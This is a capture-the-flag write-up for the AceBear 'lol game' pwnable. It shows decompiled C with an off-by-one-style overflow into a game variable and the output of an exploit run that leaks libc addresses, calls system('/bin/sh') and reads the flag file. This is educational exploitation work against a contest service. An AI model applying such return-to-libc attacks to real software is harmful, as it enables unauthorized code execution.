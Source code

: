 # lol game
**Category:** Pwnable
**Points:** 831
**Solves:** 14
**Description:**
> Download in : [Link](https://drive.google.com/open?id=15XYB41jAtwH58LxNDhRQSXWHaqzJ9cdZ)
> Service: nc armexploit.acebear.site 3004

## Writeup
```
$ file LOLgame 
LOLgame: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9d22e211c215fa4e68630a6cf0c9eeb610eba24, stripped
```

### The Bug
Binary has some functions: Play, showScore, ChangeName and exit.

Function ChangeName:
```c
int __cdecl main()
{
  char name; // [esp+4h] [ebp-E4h]
  char round; // [esp+14h] [ebp-D4h]
  ...
  ChangeName(&name);
  ...
}
```
```c
int __cdecl ChangeName(void *buf)
{
  ssize_t size; // eax
  int result; // eax
  ssize_t _size; // [esp+Ch] [ebp-Ch]

  size = read(0, buf, 0x11u);
  _size = size;
  result = *(buf + size - 1);
  if ( result == 10 )
  {
    result = buf + _size - 1;
    *result = 0;
  }
  return result;
}
```

We can see stack overflow in ChangeName function.
> name in ebp-0xE4
> round in ebp-0xD4
> but read(0, name, 0x11)
so we can overwrite **round** variable.

In Play function:
* We can bet any points (both positive and negative number)
* We always lose, then *(&game->round + game->round) = -bet;

We can control game->round by ChangeName function, we can bet any points. So we can overwrite return address on stack.

### Exploit
[lolgame.py](/pwn/lolgame/lolgame.py)
```
$ python lolgame.py 2
[+] Opening connection to lolgame.acebear.site on port 3004: Done
[*] write at 57 value 0x80483c0
[*] write at 58 value 0x8048a2a
[*] write at 59 value 0x8049108
[*] printf: 0xf7dab880
[*] baselibc: 0xf7d62000
[*] system: 0xf7d9c900
[*] str_bin_sh: 0xf7ebf00f
[*] write at 55 value 0xf7d9c900
[*] write at 56 value 0x8048a2a
[*] write at 57 value 0xf7ebf00f
?
[*] Switching to interactive mode
Bye!$ id
uid=1000(lolgame) gid=1000(lolgame) groups=1000(lolgame)
$ cat /ho*/*/flag
AceBear{tH4_r00t_1s_pr0gr4m_l3u7_u_are_hum4n}$ 
```


